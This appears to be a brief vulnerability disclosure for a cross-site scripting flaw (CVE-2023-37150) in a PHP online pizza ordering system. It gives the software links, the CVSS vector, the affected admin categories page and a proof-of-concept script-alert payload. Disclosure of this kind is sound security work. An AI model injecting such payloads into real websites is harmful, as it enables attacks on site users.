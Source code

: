 + Vendor Homepage: https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html
+ Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-opos.zip
+ Version: v1.0
+ Tested on: XAMPP win 10
+ vuln : XSS
+ exploit : <script>alert(1)</script>
+ cve id: CVE-2023-37150
+ CVSS v3.1: `AV:L/AC:L/PR:H/UI:R/S:U/C:L/I:L/A:L/E:F/RL:W/RC:R/CR:L/IR:L/AR:L/MAV:L/MAC:L/MPR:H/MUI:R/MS:U/MC:L/MI:L/MA:L`

![image](https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/63831a13-4e9b-40c8-8e82-21c8496afe92)


I enter the XSS grammar webpage under the Category item under this page and there will be a response

http://localhost/opos/admin/index.php?page=categories

![image](https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/eada90bb-239e-4930-9d6a-7366491b8114)
